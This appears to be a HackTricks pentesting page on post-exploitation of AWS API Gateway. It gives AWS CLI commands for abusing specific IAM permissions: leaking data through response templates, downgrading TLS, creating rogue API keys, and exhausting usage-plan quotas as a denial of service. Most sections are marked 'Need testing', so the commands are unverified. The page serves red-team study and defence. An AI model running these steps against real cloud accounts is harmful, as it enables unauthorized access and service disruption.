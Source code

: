 # AWS - API Gateway Post Exploitation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## API Gateway

For more information check:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Access unexposed APIs

You can create an endpoint in [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) with the service com.amazonaws.us-east-1.execute-api, expose the endpoint in a network where you have access (potentially via an EC2 machine) and assign a security group allowing all connections.\
Then, from the EC2 machine you will be able to access the endpoint and therefore call the gateway API that wasn't exposed before.

### Usage Plans DoS

In the **Enumeration** section you can see how to **obtain the usage plan** of the keys. If you have the key and it's **limited** to X usages **per month**, you could **just use it and cause a DoS**.

The **API Key** just need to be **included** inside a **HTTP header** called **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

An attacker with the permissions `apigateway:UpdateGatewayResponse` and `apigateway:CreateDeployment` can **modify an existing Gateway Response to include custom headers or response templates that leak sensitive information or execute malicious scripts**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potential Impact**: Leakage of sensitive information, executing malicious scripts, or unauthorized access to API resources.

{% hint style="info" %}
Need testing
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

An attacker with the permissions `apigateway:UpdateStage` and `apigateway:CreateDeployment` can **modify an existing API Gateway stage to redirect traffic to a different stage or change the caching settings to gain unauthorized access to cached data**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potential Impact**: Unauthorized access to cached data, disrupting or intercepting API traffic.

{% hint style="info" %}
Need testing
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

An attacker with the permissions `apigateway:PutMethodResponse` and `apigateway:CreateDeployment` can **modify the method response of an existing API Gateway REST API method to include custom headers or response templates that leak sensitive information or execute malicious scripts**.

```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```

**Potential Impact**: Leakage of sensitive information, executing malicious scripts, or unauthorized access to API resources.

{% hint style="info" %}
Need testing
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

An attacker with the permissions `apigateway:UpdateRestApi` and `apigateway:CreateDeployment` can **modify the API Gateway REST API settings to disable logging or change the minimum TLS version, potentially weakening the security of the API**.

```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```

**Potential Impact**: Weakening the security of the API, potentially allowing unauthorized access or exposing sensitive information.

{% hint style="info" %}
Need testing
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

An attacker with permissions `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, and `apigateway:CreateUsagePlanKey` can **create new API keys, associate them with usage plans, and then use these keys for unauthorized access to APIs**.

```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```

**Potential Impact**: Unauthorized access to API resources, bypassing security controls.

{% hint style="info" %}
Need testing
{% endhint %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
